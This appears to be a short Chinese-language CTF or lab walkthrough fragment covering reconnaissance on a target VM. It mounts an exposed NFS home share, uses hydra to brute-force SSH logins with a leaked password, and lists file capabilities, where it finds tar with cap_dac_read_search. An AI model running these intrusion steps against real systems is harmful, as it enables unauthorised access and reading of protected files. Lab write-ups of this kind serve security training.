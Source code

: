 ## 0x00 信息收集

![image-20201230210852745](https://i.loli.net/2020/12/30/OLymG54Ahbg9l6V.png)

查找到nfs共享服务，来使用共享目录来打他。

`showmount -e 192.168.43.148`

`mount -t nfs 192.168.43.148:/home/morris dots`  将共享目录挂载到本地。

```
hydra -L user -p TryToGuessThisNorris@2k19 ssh://192.168.0.180 -s 7822
```

```
You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19
```

```
/sbin/getcap -r / 2>/dev/null
```

```
/usr/bin/tar = cap_dac_read_search+ep
```

